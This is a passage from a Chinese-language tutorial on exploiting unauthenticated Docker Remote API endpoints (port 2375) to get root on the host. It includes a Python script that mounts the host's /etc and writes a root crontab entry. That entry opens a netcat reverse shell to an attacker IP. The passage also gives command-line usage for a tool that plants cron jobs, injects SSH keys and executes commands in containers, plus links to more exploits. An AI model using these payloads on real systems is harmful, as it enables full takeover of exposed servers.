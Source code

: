 ```
import docker

client = docker.DockerClient(base_url='http://your-ip:2375/')
data = client.containers.run('alpine:latest', r'''sh -c "echo '* * * * * /usr/bin/nc your-ip 21 -e /bin/sh' >> /tmp/etc/crontabs/root" ''', remove=True, volumes={'/etc': {'bind': '/tmp/etc', 'mode': 'rw'}})
```

写入crontab文件，成功反弹shell：

![](/assets/wsq12.png)

3.2 python脚本  
[https://github.com/Tycx2ry/docker\_api\_vul](https://bbs.ichunqiu.com/thread-39749-1-1.html?from=beef)

* 安装类库
  pip install -r requirements.txt
* 查看运行的容器
  python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375
* 查看所有的容器
  python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -a
* 查看所有镜像
  python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -l
* 查看端口映射
  python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -L
* 写计划任务（centos,redhat等,加-u参数用于ubuntu等）
  python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -C -i 镜像名 -H 反弹ip -P 反弹端口
  python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -C -u -i 镜像名 -H 反弹ip -P 反弹端口
* 写sshkey\(自行修改脚本的中公钥\)
  python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -C -i 镜像名 -k
* 在容器中执行命令
  python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -e `"id"` -I 容器id
* 删除容器
  python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -c -I 容器id
* 修改client api版本
  python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -v 1.22
* 查看服务端api版本
  python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -V

3.3 其他的一些exp

[https://github.com/netxfly/docker-remote-api-exp](https://bbs.ichunqiu.com/thread-39749-1-1.html?from=beef)
